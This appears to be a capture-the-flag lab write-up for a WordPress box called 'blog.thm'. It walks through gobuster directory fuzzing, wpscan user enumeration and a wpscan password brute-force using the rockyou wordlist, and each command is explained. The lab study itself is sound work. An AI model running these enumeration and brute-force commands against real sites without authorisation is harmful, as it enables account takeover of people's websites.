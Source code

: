 <h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1><hr style="border-color:red;">

### **- - We will apply web Fuzzing to do a scan for possible hidden directories.**
```bash
gobuster dir -u http://10.10.31.212/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
```bash
gobuster dir
Uses Gobuster in directory brute-forcing mode.
It attempts to find hidden directories and files on the web server.

-u http://192.168.1.117/
Specifies the target URL (192.168.1.208).
The scan will try to discover directories and files within this web application.

-w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
Specifies the wordlist to use for directory brute-forcing.
This file (directory-list-2.3-medium.txt) contains a large list of common web directories.
Comes from SecLists, a well-known collection of security wordlists.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/58707130-fe54-4463-99ef-d8e24604b901"></picture><br>We found some directories</h3>

### **- - We found this hidden directories**

<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3d30501a-e9aa-4a4b-ba83-2a979cedac3d"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/cd4ae524-be0e-4f53-8883-f2cafe38ddd0"></picture><br></h3>

### **- Now that we know that a WordPress is running in the background we can apply a scan to list possible users and plugins.**
```bash
wpscan --url http://blog.thm/ --enumerate u,vp
```
```bash
wpscan → Calls the WPScan tool.
--url http://blog.thm/ → Specifies the target URL (in this case, a local or lab-based WordPress site).
--enumerate u,vp → Enumerates specific components of the WordPress site:
u → Enumerates usernames of registered WordPress users (useful for brute-force attacks).
vp → Enumerates vulnerable plugins installed on the site.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/3220a975-577e-4aa6-a638-ad2d2d9c1633"></picture><br>Although we did not find any plugins, we did manage to find users.<br>kwheel<br>bjoel<br>Karen Wheeler<br>Billy Joel</h3>

### **- Now we will put all those users in a file called users.txt and we will brute force to find possible passwords and be able to enter some user panel.**
```bash
wpscan --url http://blog.thm/ --passwords /usr/share/wordlists/rockyou.txt --usernames user.txt
```
```bash
wpscan → Runs WPScan, a WordPress security scanner.
--url http://blog.thm/ → Specifies the target WordPress website.
--passwords /usr/share/wordlists/rockyou.txt → Uses the RockYou password list for brute-force attempts.
--usernames user.txt → Uses a list of usernames from user.txt instead of a single user.
```
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/2eefa686-dba8-4adc-9868-9bd4e800b53c"></picture><br>We have credentials </h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/5de49747-4210-47cd-9b69-08d3ad62685b"></picture><br></h3>
<h3 align="center"><picture><img src = "https://github.com/user-attachments/assets/4d309cb8-012d-4cf0-97bb-a191a078819d"></picture><br>We are in</h3>